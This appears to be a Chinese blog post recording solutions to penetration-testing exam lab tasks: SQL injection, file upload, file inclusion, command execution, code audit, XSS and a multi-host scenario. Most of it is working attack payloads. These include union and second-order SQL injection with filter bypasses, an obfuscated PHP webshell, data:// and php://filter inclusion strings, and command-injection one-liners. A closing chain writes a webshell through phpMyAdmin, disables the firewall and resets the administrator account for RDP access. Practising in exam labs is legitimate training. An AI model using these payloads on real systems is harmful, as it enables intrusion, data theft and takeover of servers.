title: 攻防考试记录
author: John Jue
tags: []
categories: []
date: 2024-03-11 13:24:00
---

# 34071 SQL注入

uuid正确的话会显示文章


打一个单引号会显示sql语句

看到'闭合，但是有过滤`#`和`--`
可以用`-#- `绕过，但是`#`要url编码

判断字段`index.php?uuid=983fd952-df4e-4b63-946f-f2e6bb0327d6' order by 6-%23-%20`



找回显点`index.php?uuid=1' union select 1,2,3,4,5,6-%23-%20`


注库名`index.php?uuid=1' union select 1,group_concat(schema_name),3,4,5,6 from information_schema.schemata -%23-%20`


注表名`index.php?uuid=1' union select 1,group_concat(table_name),3,4,5,6 from information_schema.tables where table_schema='2web' -%23-%20`


注字段名`index.php?uuid=1' union select 1,group_concat(column_name),3,4,5,6 from information_schema.columns where table_schema='2web' and table_name='IS_KEY' -%23-%20`


dump信息`index.php?uuid=1' union select 1,group_concat(haha),3,4,5,6 from IS_KEY -%23-%20`


# 34072 文件上传突破

先传一个jpg的木马，发现jpg都不能上传


这一查看一下jpg的内容，经过fuzz测试发现过滤了eval
```
GIF89a
<?php 
$a='ass';
$b='ert';
$ab=$a.$b;
$abc=ab;
$$abc($_POST[pass]);?>
```
简单做一下反过滤，上传，用bp修改后缀为php

成功拿到key

# 34073 文件包含
测试一下常见的协议
使用双写`index.php?page=data://text/plan,<?php eval($_POST['shell']); ?>`
用POST传参`shell=phpinfo();`
发现data://被替换为空，双写绕过



成功读取key
`http://11.1.10.15:34073/start/index.php?page=dadata://ta://text/plan,<?php eval($_POST['shell']); ?>`
`shell=system('tac ../key.php');`


# 34074 反序列化漏洞



```php
<?php
error_reporting(0);
include \"key4.php\";
$TEMP = \"Whatever is worth doing is worth doing well.\";
$str = $_GET['str'];
if (unserialize($str) === $TEMP)
{
    echo \"$key4\";
}
show_source(__FILE__);
```
这题代码不难看出要GET传一个字符串，反序列化之后要等于`Whatever is worth doing is worth doing well.`
我们只需要构造代码：
```php
<?php
$a=urlencode(serialize(\"Whatever is worth doing is worth doing well.\"));
echo $a;
?>
```


get传参即可拿到key



# 34075 失效的访问控制


我们添加一个X-Forwarded-For头为127.0.0.1


提示身份有问题，看到cookie为`PHPSESSID=4dchtoq8gcc4i2doiipj3gru1c; IsAdmin=false; Username=R3Vlc3Q%3D`
不难看出Username这里有base和最后的url加密，尝试base64解一下，更改为true且后面更改为admin的base64加密后的值并删除等于号
`PHPSESSID=4dchtoq8gcc4i2doiipj3gru1c; IsAdmin=true; Username=YWRtaW4%3D`

成功拿到key


# 34041 基础题目之SQL注入
提示了key的位置，猜测是要sql注入读文件


这里直接给出了注入点，闭合尝试


发现过滤了`#`，尝试用`%23`成功绕过闭合语句

后续为测字段，回显点和读文件，发现过滤了空格，用`/**/`或者`%0a`绕过即可，后面发现union被替换为空，在中间在写一个union即可绕过
```
fu1.php?id=1')/**/order/**/by/**/4/**/%23
fu1.php?id=-1')/**/ununionion/**/select/**/1,2,3,4/**/%23
fu1.php?id=-1')/**/ununionion/**/select/**/1,load_file('/tmp/360/key'),3,4/**/%23
```
成功拿到key


# 34042 基础题目之文件上传突破

这里直接上传之前写的免杀马子(后缀jpg测试)成功上传
```1.jpg
GIF89a
<?php 
$a='ass';
$b='ert';
$ab=$a.$b;
$abc=ab;
$$abc($_POST[pass]);?>
```


用bp抓包更改后缀为php发现不能上传成功，用fuzz测试pht可以上传，成功拿到key


# 34043 基础题目之文件包含

题目提示用文件包含获取webshell


测试包含/etc/passwd，成功


直接包含key.php发现无法显示完全


用php伪协议尝试，成功读取key
```
fu1.php?file=php://filter/convert.base64-encode/resource=../key.php
```


# 34044 基础题目之命令执行

`|tac ../key.php`轻松秒杀


# 34045 基础题目之日志分析

这个题需要打开考试机上面的notepad++，用语法查询，题目提示攻击者ip为`172.16.12.12 `
```
172.16.12.12.*\\.php.HTTP/1.1\\\" 200
```
发现一直在访问`/adminlogin.php`这个目录


访问发现一个登录系统


进行暴力破解尝试


成功爆破账号密码为admin/password123，登录拿到key


# 34031 二阶SQL注入



注册一个admin123测试登录


点击重置密码，成功重置


注册一个奇怪的用户`%'\")#`


进入系统点击更改密码，发现无法重置，这里猜测sql语句执行出现问题


fuzz测试发现账号存在`'`时，无法更改密码
注册用户`admin'#`登录进去重置密码


成功重置，使用重置的密码尝试登录admin

成功拿到key

# 34032 文件上传突破

直接上传之前做的免杀(.jpg)木马尝试对文件内容有无过滤，发现成功上传


用bp抓包改后缀名

成功拿到key

# 34033 文件包含

发现包含了view.html


访问一下view.html看看是什么东西，查看源码


发现是一个一句话木马，用post传参`Hello=1&z0=c3lzdGVtKCd0YWMgLi4va2V5LnBocCcpOw==`成功拿到key


# 34034 代码审计




代码审计发现exec传入参数可控，但是exec命令无回显，需要把命令输出到其他目录
```
http://11.1.10.15:34034/start
```

成功拿到key

# 34035 命令执行


后续fuzz测试貌似是对php有过滤，绕过即可`&grep key ../key.p*`


# 34021 二阶SQL注入

题目提示使用admin登录可以拿到key


做法跟上面的`34031 二阶SQL注入`一模一样
注册`admin'#`然后重置密码即可重置admin密码


# 34022 文件上传突破

做法与`34032 文件上传突破`同样毫无异同


拿到key


# 34023 文件包含

与`34033 文件包含`做法一致



# 34024 日志分析

题目并没有提示，我们可以下载下来日志文件分析


是一个十八万行的日志


这里使用语法`HTTP/1.1\" 200`发现可能的后门文件


浏览器访问拿到key


# 34025 命令执行

`;grep key  ../key.php`轻松拿下


# 34214 代码审计

题目给出代码如下
```php
代码分析：
<?php
$v1 = 0;  
$v2 = 0;
//使用get方法传递一个w的参数，这个参数的内容是一个json格式的数组
$a = (array)json_decode(@$_GET['w']); #json特征是自定义键值使用{}，自定义值使用[]
if (is_array($a)) {
    is_numeric(@$a[\"bar1\"]) ? die(\"nope\") : NULL; #is_numeric判断bar1是否是数字，是就退出 ，不是就什么都不做
\tif (@$a[\"bar1\"]) {
        ($a[\"bar1\"] > 2020) ? $v1 = 1 : NULL; //bar1这个元素要大于2020，才会输出v1=1
    }
    if (is_array(@$a[\"bar2\"])) #is_array判断bar2是否是数组
\t{
        if (count($a[\"bar2\"]) != 5 or !is_array($a[\"bar2\"][0])) #判断如果bar2数组中元素的个数不等于5或者bar2数组中的第0个元素不是数组，退出循环
\t\t{
            die(\"nope\");
        }
        $pos = array_search(\"cisp-pte\", $a[\"bar3\"]); # 在bar3中使用array_search在数组中去寻找元素\"cisp-pte\"
        $pos === false ? die(\"nope\") : NULL;   # 找不到，退出循环
        foreach ($a[\"bar2\"] as $key => $val) # foreach对数组中的数据进行遍历
        {
            $val == \"cisp-pte\" ? die(\"nope\") : NULL;  #在bar2中如果出现了cisp-pte,则退出循环
        }
        $v2 = 1;
    }
}
#v1与v2都为真时，输出key
if ($v1 && $v2)  
 {
    include \"key.php\";
    echo $key;
}
highlight_file(__file__);
```
通过GET请求获取一个w(数组)并赋值给a
`is_numeric`绕过：php中当一个其他数据类型和数值类型的数据比较大小时，会先将其他数据类型转换成数值类型。所以用数字+字符串即可绕过

最终payload：`vul.php?w={\"bar1\":\"2021a\",\"bar2\":[[0],1,2,3,4],\"bar3\":[\"cisp-pte\"]}`


# 34011 基础题目之SQL注入

这道题的话是一个二次注入题，比较麻烦


先注册一个admin123用户


发表一个不正常的文章(`%'\") #`)


发现发表失败，证明sql语句可能有报错，将这些符号分开发送fuzz测试是什么闭合


发现只有`'`的时候会失败，尝试用`#`或`-- q`闭合还是失败，猜测对这两个有过滤，大量测试发现不对
这里猜测后台sql语句可能是`('?','id','title','content','?')`这样构成，我们通过title这里进行测试

用这个语句成功发布文章`',' ',' ')#`


但是这里我们发现我们发布的文章我们看不到，所以就需要判断用户名字在SQL语句中的位置
通过fuzz测试也是正确找到了位置



直接开始注入，发现这里注入失败，猜测是过滤了一些内容


运气比较好，对select大写字母成功绕过



下一步


下一步


成功拿到key
```
content=&title=QaQ',(Select group_concat(table_name) from information_schema.tables where table_schema='2web'),'admin123')#
content=&title=QaQ',(Select group_concat(column_name) from information_schema.columns where table_schema='2web' and table_name='users1'),'admin123')#
content=&title=QaQ',(Select group_concat(username,'-',password) from users1),'admin123')#
```
PS:这题后续通过SQL注入读取文件发现传参代码逻辑为：
```php
<?php
if(isset($_POST['title']) && isset($_POST['content'])) {
\t$title =sqlzhuru($_POST['title']);
\t$content =sqlzhuru($_POST['content']);
\t$username = $_SESSION['user'];
\t$result = insert_article($title,$content,$username);
 \t\techo '<p style=\"color:red;font-size:32px\">'.$result.'</p>';
}
?>
```

# 34012 基础题目之文件上传突破

尝试上传之前的免杀木马(.jpg)成功，用bp改为php上传


发现上传失败了，经验得知改为pht试试

轻松拿下

# 34013 基础题目之文件包含

题目说了透过现象看本质


直接看view.html的源码


跟前面`34033 文件包含`做法一样，POST传参`Hello=1&z0=c3lzdGVtKCd0YWMgLi4va2V5LnBocCcpOw==`拿到key


# 34014 基础题目之命令执行

`;t''ac ../key.php`秒了


# 34015 基础题目之验证码爆破

我们随便输入一个账号密码，抓包查看


发现除了验证账号密码的包，还发回来了codeimage的包，我们只需要输入一次正确的验证码，然后BP一直不forward，在爆破模块爆破即可


爆破得到用户名密码为admin/123qwe，登录即可拿到key


# 34051 基础题目一：SQL注入

进入系统发现只有一个登录框，加上题目是SQL注入，猜测要用万能密码


用admin\"登录时候，发现`\"`没了，fuzz测试还发现过滤了or，大写绕过即可，用如下账号密码即可登录系统拿到key
```
admin
' Or '1'='1
```


# 34061 基础题目之SQL注入


看题目提示明显是sql注入读取文件的题目

题目也给了sql语句


闭合发现#被过滤


fuzz测试发现`-- q`可以



拿到key
```
fu1.php?id=1%') order by 7 -- q
fu1.php?id=-1%') uniunionon select 1,2,3,4,5,6,7 -- q
fu1.php?id=-1%') uniunionon select 1,load_file(\"/tmp/360/key\"),3,4,5,6,7 -- q
```

# 34213 XSS跨站脚本攻击


随便点一个功能点


这里留一个`<script>alert(1)</script>`


成功弹窗，留一个偷管理员cookie的xss语句，并在本地启动一个`python m`服务器用来接收cookie
```xss
<script>
document.write('')
</script>
```

成功接收到cookie


成功拿到key



# 34224 基础题目四: XSS漏洞


直接留言：
```
<script>
document.write('')
</script>
```

成功拿到key

# 34223 基础题目三：文件包含

测试一下data协议成功
`index.php?page=data://text/plan,<?php phpinfo(); ?>`


利用data写一句话`index.php?page=data://text/plan,<?php system('tac ../key.php'); ?>`拿到key


# 34234 基础题目四：代码审计

进入查看代码


`eval(\"\\$o=strtolower(\\\"$a\\\");\");`,这里假设$a赋值为`\");system('ls');(\"`
那这段代码就变成了
```
eval(\"$o=strtolower(\"\");system('ls');(\"\");\");
```
`vul.php?a=\");system('tac key4.php');(\"`

拿到key

# 综合题1

用nmap扫描网段10.1.10.81-86


发现都开启了125端口，通过浏览器访问尝试


弹出来一个http认证，这里使用bp进行破解，使用的是basic认证，账号密码用base64加密


要选择一下encode功能
成功爆破出密码，base64解密一下即可看到明文


admin/qwerty成功进入


f12查看源码提示是静态页面，用bp扫描后台，这里要记得把url编码关掉


访问robots.txt拿到key6


bp发现news目录也是200，继续扫描该目录下的服务


我们先访问news，发现了一个留言反馈系统


系统管理这里提示要登录


访问phpmyadmin发现可以未授权，可以通过执行sql语句来修改news留言反馈系统的登录密码


发现admin密码保存位置，但是被md5加密了，我们直接将md5(admin)值把原来的修改掉


使用admin/admin登录系统发现密码错误，猜测用了多次加密，尝试md5(md5(admin))


成功登录系统


这里面显示了web服务的绝对路径，可以配合phpmyadmin执行sql语句写入一句话木马


```sql
select '<?php @assert($_REQUEST[\"shell\"]); ?>' into outfile \"C:/wamp/www/shell.php\"
```


用蚁剑连接webshell，要记得添加请求头的验证，将编码器解码器随便修改一个


拿到key7


通过蚁剑进入虚拟终端界面，执行攻击机给的3389.bat


然后关闭防火墙并添加一个新的RDP用户
```
netsh firewall set opmode disable
net user administrator 123Abc.
```


成功3389进入系统，回收站的名字为key8，结束

